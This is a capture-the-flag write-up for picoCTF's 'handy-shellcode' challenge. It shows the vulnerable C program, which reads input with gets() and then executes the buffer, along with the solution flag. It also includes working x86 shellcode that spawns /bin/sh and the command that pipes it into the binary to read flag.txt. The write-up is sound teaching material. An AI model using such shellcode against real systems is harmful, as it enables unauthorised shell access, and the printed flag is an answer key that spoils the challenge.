 
# Binary Exploitation - handy-shellcode (50 points)

## Challenge

*This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_6_f0b84e12a8162d64291fd16755d233eb on the shell server. Source.*

![Challenge](../_images/binary_exploitation_handy-shellcode_challenge.png)

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
```

## Flag

picoCTF{h4ndY_d4ndY_sh311c0d3_15d47ccd}

## Walkthrough

The function `void vuln(char *buf)` is vulnerable to a buffer overflow, because of a call to `gets()` (no boundaries) rather than `fgets()` (which read only a limited number of char). But, this is not what we are going to use here.

The end of *vuln.c* cast `buf` as pointer to a function taking no arguments and returning void. Hence, we can inject a shellcode in `buf` to spawn a shell.

Let's create a simple shell code to invoke `/bin/sh` using a system call to `sys_execve()`.

```asm
; shellcode.nasm
bits 32

shellcode:
    ; reset registers
    xor eax, eax
    xor ebx, ebx
    xor ecx, ecx
    xor edx, edx

    ; push null terminator and //bin/sh on the stack
    ; to keep bytes alignment.
    push eax
    push 0x68732f6e
    push 0x69622F2F
    
    ; /bin/sh\0 on top of the stack
    mov ebx, esp

    ; system call to sys_execve (system call 11)
    mov al, 11
    int 0x80
```

Now let's assemble it :

```bash
> nasm -f elf32 -o shellcode.o shellcode.nasm
> ld -m elf_i386 -s -o shellcode shellcode.o
```

And dump the shellcode :

```
> hexdump -v -e '"\\""x" 1/1 "%02x" ""' shellcode
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80\x00\x2e\x73\x68\x73\x74\x72\x74\x61\x62\x00\x2e\x74\x65\x78\x74
```

OK, let's try this in the vulnerable binary :

```bash
m3oow@pico-2019-shell1:/problems/handy-shellcode_6_f0b84e12a8162d64291fd16755d233eb$ (echo -en "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80\x00\x2e\x73\x68\x73\x74\x72\x74\x61\x62\x00\x2e\x74\x65\x78\x74"; cat -) | ./vuln
Enter your shellcode:

1�1�1�1�Phn/shh//bi��
                    ̀
Thanks! Executing now...
ls
flag.txt  vuln  vuln.c
cat flag.txt
picoCTF{h4ndY_d4ndY_sh311c0d3_15d47ccd}
```

